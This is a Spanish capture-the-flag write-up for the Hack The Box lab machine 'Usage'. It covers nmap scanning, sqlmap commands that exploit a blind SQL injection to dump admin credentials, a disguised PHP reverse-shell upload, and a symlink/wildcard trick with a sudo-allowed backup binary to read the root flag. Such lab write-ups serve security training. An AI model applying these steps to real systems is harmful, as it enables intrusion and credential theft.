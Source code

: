 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240415164823.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240415165024.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240415165125.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240415193303.png]]

![[Pasted image 20240415201751.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 

### Blind SQLI

```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
![[Pasted image 20240418105600.png]]

`obtenemos el nombre de la base de datos y el nombre de las tablas`
![[Pasted image 20240418125501.png]]

### sqlmap 
una ves obtenemos la información de la base de datos vamos a realizar la solicitud apuntando al username y password 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```
![[Pasted image 20240418131443.png]]

![[Pasted image 20240418131505.png]]

### web
de esta manera logramos conseguir las credenciales que estaban en la base de datos vulnerando el parámetro mal para obtener acceso a la pagina web
`en el apartado de administrador podemos subir un archivo.jpg que vamos a utilizar para meter una reverse shell oculta`
![[Pasted image 20240603230506.png]]

`Burpsuite`
interceptamos y cambiamos la extensión del archivo para agregar .php de la manera que se muestra en la imagen
![[Pasted image 20240603230913.png]]

`a la derecha podemos ver que nos da un estatus 302 lo que significa que esta haciendo una redireccion. simplemente seguimos la redireccion y listo`
![[Pasted image 20240603231243.png]]

`haciendo Fuzzing podemos descubrir que existe el directorio /uploads/images/ y aqui dentro se encuentra nuestro archivo que al llamarlo nos entabla una reverse shell. para ello debemos estar a la escucha`
![[Pasted image 20240603231416.png]]

### rshell
aqui obtenemos una reverse shell como el usuario dash
![[Pasted image 20240603231542.png]]

### User Pivoting
hemos conseguido un usuario llamado xander y también un archivo oculto dentro del directorio de dash que hemos logrado leer y contiene unas credenciales
![[Pasted image 20240603232224.png]]

### ssh
usamos el protocolo ssh para conectarnos como el usuario xander
![[Pasted image 20240603232435.png]]

### sudo -l
tenemos permisos de sudo para un binario llamado `/usr/bin/usage_management` el cual tiene 3 opciones y podemos ver que la ruta donde se esta ejecutando estas opciones es `/var/www/html`
![[Pasted image 20240603234123.png]]

`Wildcard`
usando este script podemos explicar esta Wildcard para obtener el root.txt de la siguiente forma
```python
	>cd /var/www/html/
	
	>touch '@root.txt'
	
	>ln -s -r /root/root.txt root.txt
	
	>sudo /usr/bin/usage_management #Opcion 1 (Project Backup)
	
```
en el apartado de WARNING: No more file podemos leer la flag
![[Pasted image 20240603234023.png]]

### WE ARE ROOT
